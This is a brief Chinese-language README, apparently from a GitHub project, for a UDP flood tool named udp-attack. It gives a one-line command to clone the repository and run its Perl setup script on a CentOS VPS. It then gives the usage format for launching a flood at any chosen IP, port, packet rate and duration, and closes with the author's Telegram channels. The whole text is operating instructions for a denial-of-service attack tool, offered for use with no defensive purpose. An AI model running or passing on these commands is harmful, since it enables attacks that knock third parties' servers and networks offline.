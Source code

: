 # udp-attack 一个简单的udp攻击程序
# 版本：1.0
# 发布时间：2020/02/06
# 安装篇
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 6.x系统</li>
<br>
现在开始安装，，，
<br>
<code>cd /root && git clone https://github.com/KLDGodY/udp-attack.git && perl setup.pl</code>
<br>
<br>
<br>
<blockquote>如果显示<code>perl</code>没有安装，，请自行到网上找教程，，，</blockquote>
<br>
<br>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
<br>
等待安装好后，，就可以开始攻击力，，
<br>
<br>
命令格式：<code>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</code>
<br>
<br>
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodynb">@kldgodynb</a><br>欢迎各位dl加入，，，
